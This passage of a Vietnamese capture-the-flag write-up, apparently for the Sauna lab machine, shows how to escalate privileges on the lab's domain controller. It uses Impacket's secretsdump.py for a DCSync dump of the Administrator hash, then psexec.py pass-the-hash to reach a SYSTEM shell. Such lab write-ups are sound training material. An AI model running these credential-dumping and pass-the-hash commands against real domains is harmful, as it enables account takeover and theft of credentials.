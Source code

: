 Sau khi nhấp chuột phải vào edge và click vào `Help`, thấy rằng `svc_loanmgr` có khả năng trích xuất hash password từ Domain Controller bằng cách sử dụng cuộc tấn công DCSync.

### DCSync

secretsdump.py của Impacket có thể được sử dụng để thực hiện cuộc tấn công này.

Script này sẽ tiết lộ các hàm hash NTLM cho tất cả người dùng domain, sử dụng các đặc quyền sao chép. Chạy command bên dưới để dump hash password của administrator domain chính.

```
secretsdump.py egotistical-bank/svc_loanmgr@10.10.10.175 -just-dc-user Administrator
```

![alt text](image-18.png)

Sau khi trích xuất thành công mã hash của administrator, có thể thực hiện cuộc tấn công Pass The Hass bằng cách sử dụng psexec.py của Impacket và mã hash trả về, rồi lấy một shell là SYSTEM.

```
psexec.py egotistical-bank.local/administrator@10.10.10.175 -hashes d9485863c1e9e05851aa40cbb4ab9dff:d9485863c1e9e05851aa40cbb4ab9dff
```

![alt text](image-19.png)

Root flag nằm ở `C:\Users\Administrator\Desktop\`.